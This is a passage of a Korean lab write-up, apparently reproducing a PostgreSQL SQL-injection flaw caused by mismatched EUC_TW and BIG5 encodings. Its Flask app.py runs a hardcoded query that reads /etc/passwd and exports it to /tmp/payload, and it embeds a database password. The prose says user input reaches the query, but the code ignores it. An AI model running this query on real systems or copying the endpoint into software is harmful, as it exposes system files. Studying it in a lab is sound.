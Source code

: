 `POSTGRES_SERVER_ENCODING=EUC_TW` :  PostgreSQL 서버에서 사용할 문자 인코딩 방식을 EUC_TW로 설정합니다.

`POSTGRES_CLIENT_ENCODING=BIG5` :  PostgreSQL 클라이언트에서 사용할 문자 인코딩 방식을 BIG5로 설정합니다.

이 두 인코딩 방식은 서로 다른 방식으로 바이트를 해석합니다. 그 결과, 클라이언트에서 처리된 이스케이프 문자들이 서버에서는 다르게 해석되어, SQL 인젝션 취약점이 발생할 수 있습니다. 

즉, 클라이언트와 서버 간 인코딩 불일치로 인해 사용자가 입력한 데이터가 제대로 처리되지 않아 공격자가 SQL 인젝션을 통해 시스템을 악용할 수 있게 됩니다.

**3. app.py** 

`app.py`는 Flask 애플리케이션으로 `/vuln-endpoint`라는 취약한 엔드포인트를 제공하며, 사용자가 POST 요청을 보내면 요청에 포함된 입력값을 SQL 쿼리에 직접 삽입합니다. 

이 과정에서 SQL 인젝션 취약점이 발생하게 됩니다. 

```python 
from flask import Flask, request
import subprocess
import os 

app = Flask(__name__)

@app.route('/vuln-endpoint', methods=['POST'])
def vuln_endpoint():
	try:
		user_input=request.form.get('input', '') 
		
		malicious_query=f"""
		DO $$
		DECLARE
			l_oid oid; 
			l_fd integer; 
		BEGIN
			l_oid:=lo_create(0); 
			l_fd:=lo_open(l_oid, 131072); 
			PERFORM lowrite(l_fd, pg_read_file('/etc/passwd')::bytea); 
			PERFORM lo_close(l_fd); 
			PERFORM lo_export(l_oid, '/tmp/payload'); 
		END $$;
		"""
		cmd = ["psql", "-h", "db", "-U", "postgres", "-c", malicious_query] 
	
		env = os.environ.copy()
		env["PGPASSWORD"] = "example" 

		result = subprocess.run(cmd, env=env, capture_output=True, text=True) 

		return {
			"status":"executed", 
			"stdout":result.stdout, 
			"stderr":result.stderr
		} 

	except Exception as e:
		return {"error":str(e)}, 500

if __name__ == '__main__':
	app.run(host='0.0.0.0', port=5000)

```
